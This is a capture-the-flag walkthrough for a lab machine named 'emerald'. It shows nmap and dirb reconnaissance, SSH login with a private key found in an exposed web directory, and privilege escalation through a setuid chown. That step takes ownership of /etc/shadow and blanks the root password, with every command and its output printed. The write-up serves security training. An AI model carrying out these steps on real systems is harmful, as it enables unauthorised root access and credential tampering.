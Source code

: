 # 🖥 Walkthrough | emerald

## 1. Reconnaissance

An `nmap` scan reveals the following exposed services:

```bash
# nmap -A -p- 192.168.60.4
[..]
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 44:93:bd:32:c1:fe:6b:8f:8a:30:5f:c9:ea:21:44:5f (RSA)
|   256 d4:32:2c:4f:31:4d:42:46:e9:82:41:ca:87:2d:ff:00 (ECDSA)
|_  256 d2:f9:90:26:44:fd:34:2e:97:19:6e:d9:f0:1c:dc:64 (ED25519)
8080/tcp open  http    nginx 1.18.0
|_http-title: About Me
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.18.0
[..]
```

The output suggests that there is an SSH server on port 22 and a nginx web server on port 8080. The nginx website appears to only contain static contents:

![website](img/01.png)

One part of reconnaissance is to check for hidden contents. This includes web directories which are not listed publicly, i.e. they need to be discovered. This process is called directory busting.

In this step, we use the tool `dirb` for directory busting. We need to provide an URL as well as a *wordlist* (a text file containing words that will be checked as directory or file names).

```bash
# dirb http://192.168.60.4:8080/ /usr/share/wordlists/dirb/big.txt -r

[..]                                                        
---- Scanning URL: http://192.168.60.4:8080/ ----
==> DIRECTORY: http://192.168.60.4:8080/assets/
==> DIRECTORY: http://192.168.60.4:8080/drive/
[..]
```

The output above shows that there appear to be two directories: `assets` and `drive`. Opening the `drive` directory in a web browser shows some interesting files:

![directory-listing](img/02.png)

The files `id_rsa` and `id_rsa.pub` appear to be an RSA key pair. Possibly for SSH?

## 2. SSH access

The `id_rsa.pub` file contains the string `clemence@emerald`. So it might be worth trying to log in as user `clemence` via SSH. After downloading the private key `id_rsa`, we can issue the following command to establish an SSH session:

```bash
ssh -i id_rsa clemence@192.168.60.4 
```

After confirming the fingerprint, we are successfully logged in as `clemence` and can retrieve the first token:

```bash
clemence@emerald:~$ cat token
This one's for you: EMERALD{d1r3ct0ry_bust1ng_g03s_brrrrr}
```

## 3. Privilege escalation

One way to elevate privileges are so-called `setuid` binaries. 

```bash
clemence@emerald:~$ find / -type f -perm -4000 2>/dev/null
/usr/bin/chown
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

What is interesting is that the `chown` executable has the `setuid` bit set. Since it is owned by root, we can use it to change the ownership of arbitrary files and folders:

```bash
clemence@emerald:~$ ls -al /usr/bin/chown
-rwsr-xr-x 1 root root 72672 Sep 24  2020 /usr/bin/chown
```

There are different ways to get root access. Our approach is the following:

1. Change ownership of `/etc/shadow` so that we can write to it:
   ```
   clemence@emerald:~$ chown clemence /etc/shadow
   ```
2. Edit `/etc/shadow` in an editor of our choice and set the root password to an empty string. To do this, change the first line to:
   ```
   root::0:[...]
   ```
3. Switch to the root user and read the second token:
   ```
   clemence@emerald:~$ su root
   root@emerald:/home/clemence# id
   uid=0(root) gid=0(root) groups=0(root)
   root@emerald:/home/clemence# cat /root/token
   Here's a little secret for you: EMERALD{setu1d_0n_wr0ng_b1n4ries_is_b4d}
   ```

And that's it. We're done!
